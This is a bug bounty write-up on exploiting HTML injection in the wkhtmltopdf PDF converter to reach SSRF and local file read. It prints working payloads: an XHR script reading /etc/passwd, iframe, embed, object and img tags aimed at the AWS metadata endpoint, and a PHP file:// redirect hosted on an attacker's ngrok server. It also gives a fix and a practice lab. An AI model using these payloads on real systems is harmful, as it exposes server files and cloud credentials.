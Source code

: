 ```yaml
---
title: "SSRF to Local File Read"
date: 2021-03-30
tags: [BugBounty, BugBountyTips, Server Side Request Forgery, Local File Disclosure, SSRF, LFI, Ruby On Rails, Rails]
excerpt: "SSRF to Local File Read"
header:
  image: "assets/images/BugBountyImages/ssrf/ssrf_to_lfi.png"

---
```


This blog post is about the vulnerability that I have identified in `Wkhtmltopdf` gem, which was allowing users to inject HTML in the pdf files, and after doing further research, I was able to identify that the parser's functionality was vulnerable to internal SSRF attack, which further allowed me to read server's local file.

Injecting the simple HTML payload the code section oft the application `"><h1>XSS</h1>`

![assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.22.58_PM.png](assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.22.58_PM.png)

Loading the PDF file show's the injected HTML has been successfully executed in our PDF file. 

![assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.26.05_PM.png](assets/images/BugBountyImages/ssrf/Screenshot_2021-03-24_at_8.26.05_PM.png)

So as you can see HTML injection is happening in our pdf file and at this time as one's my excitement level can be high, Since we know in these kinds of cases there are high chances to find internal SSRF or read local files from the server.

So the next thing I did is to send an XHR request using file:///,As mentioned in the blog post by noob ninja [LFI to XSS](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html).

```ruby
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script
```

But nothing happened. I realized that the script was blocked and the XHR request got failed. Okay so, the next thing that I have tried is to send the request to my server and checked the response headers. I used simple payload `"><img src="[http://406e7772.ngrok.io](http://406e7772.ngrok.io/)">` and I was presented with the `User-agent` header as `User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34`.

I also tried to extract passwd file using the payload `"><iframe src="file:///etc/passwd" height="500" width="500">` it didn't worked as well, got a blank pdf file.

From the user-agent, `wkhtmltopdf` sounds suspicious to me, and after doing a bit of googling I was able to find that `wkhtmltopdf` is vulnerable to SSRF Attacks. [Issue link.](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570)

It was time to try to call AWS metadata API's and that's what I did. So I used an iframe to request internal AWS API's

```ruby
"><iframe src="http://169.254.169.254/latest/dynamic/instance-identity/" height="500" width="500">
```

and I was presented with meta data response. I was able to fetch instance identity.

```ruby
document
signature
pkcs7
rsa2048
```

So at this point it was a confirmed internal SSRF.

I didn't want to stop there, as I wanted to exploit it further and read the local files of the server. My hunger just to get read local files so I can sleep peacefully.

As mentioned in the above blog post, `wkhtmltopdf` is vulnerable to SSRF attack and it's through the location header.

```ruby
<?php
     header('location:http://127.0.0.1');
?>
```

So, what I did, create a php file with the following content:

```ruby
<?php header('location:file://'.$_REQUEST['url']); ?>
```

Hosted this PHP file on my ngrok server and then I sent the payload as:

```ruby
"><iframe height="2000" width="800" src=http://c723862e.ngrok.io/test.php?x=%2fetc%2fpasswd></iframe>
```

and i was presented with the PDF file

![assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.06.06_AM.png](assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.06.06_AM.png)

Yayy!! I was able to read the local file of the server. as I know more about the organization and how they store their application internally I tried to fetch their database.yml file in path `/config/database.yml` but it did not succeed. Later, I figured it out that they had their database file in `/var/company_name/config/database.yml` and I was able to read their DB file as well.

![assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.10.55_AM.png](assets/images/BugBountyImages/ssrf/Screenshot_2021-03-25_at_1.10.55_AM.png)

### Payloads

In case script and iframe are blocked you can use these payloads:

```html
embed
object
img
```

And you can further craft your payload as:

```html
"><embed src="http://169.254.169.254/latest/dynamic/instance-identity/" width=”200″ height=”200" />

"><object data="http://169.254.169.254/latest/dynamic/instance-identity/" width="400" height="300" type="text/html"></object>

"><img src='http://169.254.169.254/latest/dynamic/instance-identity/' height="2000" width="800">
```

### How to fix this SSRF?

To fix this vulnerability use `-disable-local-file-access` while converting HTML files into PDF.

if you are using wicked_pdf then introduce the `disable_local_file_access` parameter in `parse_others`function. it should look like this:

```ruby
r += make_options(options, [:book,
		                              :other_parameters
                                  :disable_smart_shrinking,
                                  :disable_local_file_access,
                                  :no_stop_slow_scripts], '', :boolean)
```

### Re-creating SSRF locally!

So, I did coded this for my friend so he can practice this bug type.

to reproduce this issue first you need to install wkhtmltopdf in your machine.

**Installation for Debian:**

```bash
$ apt-get install libfontenc1 xfonts-75dpi xfonts-base xfonts-encodings xfonts-utils openssl build-essential libssl-dev libxrender-dev git-core libx11-dev libxext-dev libfontconfig1-dev libfreetype6-dev fontconfig -y
$ wget https://github.com/wkhtmltopdf/wkhtmltopdf/releases/download/0.12.5/wkhtmltox_0.12.5-1.bionic_amd64.deb
$ dpkg -i wkhtmltox_0.12.5-1.bionic_amd64.deb
$ apt --fix-broken install
```

**Installation for Kali Linux:**

```bash
$ sudo apt-get install wkhtmltopdf
```

[https://gist.github.com/Splint3r7/09d82684dfe701a4aa319c5beffb64cd](https://gist.github.com/Splint3r7/09d82684dfe701a4aa319c5beffb64cd)

[https://gist.github.com/Splint3r7/81661d9ef5e59c669bfcac650d53f707](https://gist.github.com/Splint3r7/81661d9ef5e59c669bfcac650d53f707)

Host these two files on your apache2 server and now you can go to the URL `[http://127.0.0.1/ss2.php?xss="><h1>XSS</h1>](http://127.0.0.1/ss2.php?xss="><h1>XSS</h1>)` once you hit this URL, a test.html file will be created with your supplied input and a PDF file will be generated.

You are good to go with your SSRF to LFI lab and practice it further! ;)
